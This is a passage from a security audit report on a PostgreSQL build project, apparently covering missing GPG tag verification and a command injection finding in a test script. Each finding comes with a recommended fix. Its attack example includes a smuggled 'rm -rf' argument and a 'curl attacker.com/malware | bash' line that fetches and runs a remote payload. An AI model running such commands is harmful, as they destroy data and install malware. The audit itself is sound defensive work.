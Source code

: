 **Recommendation**:
```dockerfile
# 1. Import PostgreSQL GPG keys (after RUN apk add)
RUN apk add --no-cache gnupg=2.4.4-r0 && \
    gpg --keyserver hkps://keys.openpgp.org --recv-keys \
        B42F6819007F00F88E364FD4036A9C25BF357DD4 \
        E8697E2EEF76C02D3634C28062A0DC06E5C226AA

# 2. Add verification after git checkout (line 60)
RUN git verify-tag "$tag" || { echo "ERROR: GPG signature verification failed"; exit 1; }
```

**Priority**: P0 (Block next release)

---

### 1.2 Command Injection via Unvalidated Script Arguments

**Severity**: CRITICAL
**Impact**: Arbitrary code execution if test.sh is called with malicious input
**Status**: UNADDRESSED

**Affected File**: [scripts/test.sh:5](../../scripts/test.sh#L5)

**Code**:
```bash
postgresql_version=$(echo "$1" | awk -F. '{print ""$1"."$2}')
```

**Issue**: No validation that `$1` contains only safe characters. Malicious input could inject commands.

**Attack Example**:
```bash
./test.sh '$(rm -rf /important-data)'
./test.sh '`curl attacker.com/malware | bash`'
```

**Recommendation**:
```bash
# Add strict validation at script start
if [[ -z "$1" ]]; then
  echo "Usage: $0 <postgresql_version>" >&2
  exit 1
fi

if ! [[ "$1" =~ ^[0-9]+\.[0-9]+(\.[0-9]+)?$ ]]; then
  echo "Error: Invalid version format. Expected X.Y or X.Y.Z" >&2
  echo "Got: $1" >&2
  exit 1
fi

postgresql_version=$(echo "$1" | awk -F. '{print $1"."$2}')
```

**Priority**: P0 (Fix before next test run)

---